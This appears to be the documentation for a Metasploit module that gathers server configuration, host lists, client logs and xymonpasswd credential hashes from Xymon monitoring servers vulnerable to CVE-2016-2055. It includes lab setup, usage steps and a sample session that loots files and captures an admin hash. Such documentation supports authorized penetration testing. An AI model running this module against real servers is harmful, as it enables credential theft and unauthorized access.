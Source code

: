 ## Description

  This module retrieves information from a Xymon daemon service
  (formerly Hobbit, based on Big Brother), including server
  configuration information, a list of monitored hosts, and
  associated client log for each host.

  This module also retrieves usernames and password hashes from
  the `xymonpasswd` config file from Xymon servers before 4.3.25,
  which permit download arbitrary config files (CVE-2016-2055),
  and servers configured with `ALLOWALLCONFIGFILES` enabled.


## Vulnerable Application

  [Xymon](http://xymon.sourceforge.net/) is a system for monitoring servers and networks.

  Xymon packages are available in software repositories for various Linux distributions :

  ```
  sudo apt-get install xymon
  ```

  Refer to http://xymon.sourceforge.net/xymon/help/install.html for more information.

  A Xymon virtual appliance is also available :

  * https://sourceforge.net/projects/xymon/files/Xymon/4.3.10/VM/

  To expose the `xymonpasswd` file, add the following line to `/etc/xymon/xymonserver.cfg` :

  ```
  ALLOWALLCONFIGFILES="TRUE"
  ```

  And restart the service with : `service xymon restart`.


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use use auxiliary/gather/xymon_info`
  3. Do: `set rhost [IP]`
  4. Do: `run`
  5. You should receive server and client host information


## Scenarios

  ```
  msf5 > use auxiliary/gather/xymon_info 
  msf5 auxiliary(gather/xymon_info) > set rhosts 172.16.191.250
  rhosts => 172.16.191.250
  msf5 auxiliary(gather/xymon_info) > run
  [*] Running module against 172.16.191.250

  [*] 172.16.191.250:1984 - Xymon daemon version 4.3.28
  [*] 172.16.191.250:1984 - Retrieving configuration files ...
  [+] 172.16.191.250:1984 - xymonserver.cfg (18347 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.config.xym_136371.txt
  [+] 172.16.191.250:1984 - hosts.cfg (745 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.config.hos_647070.txt
  [+] 172.16.191.250:1984 - xymonpasswd (44 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.config.xym_182226.txt
  [+] 172.16.191.250:1984 - Credentials: admin : $apr1$axRTeLB1$TFmoeLwRnus.Yhr5fJmc1.
  [*] 172.16.191.250:1984 - Retrieving host list ...
  [+] 172.16.191.250:1984 - Host info (127 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.hostinfo_254799.txt
  [+] 172.16.191.250:1984 - Found 3 hosts
  [*] 172.16.191.250:1984 - Retrieving client logs ...
  [+] 172.16.191.250:1984 - debian-9-6-0-x64-xfce.local client log (87942 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.hosts.debi_671716.txt
  [*] 172.16.191.250:1984 - test-host client log is empty
  [*] 172.16.191.250:1984 - another-test-host client log is empty
  [*] Auxiliary module execution completed
  msf5 auxiliary(gather/xymon_info) > creds
  Credentials
  ===========

  host            origin          service            public  private                                realm  private_type        JtR Format
  ----            ------          -------            ------  -------                                -----  ------------        ----------
  172.16.191.250  172.16.191.250  1984/tcp (xymond)  admin   $apr1$axRTeLB1$TFmoeLwRnus.Yhr5fJmc1.         Nonreplayable hash  md5crypt
  ```

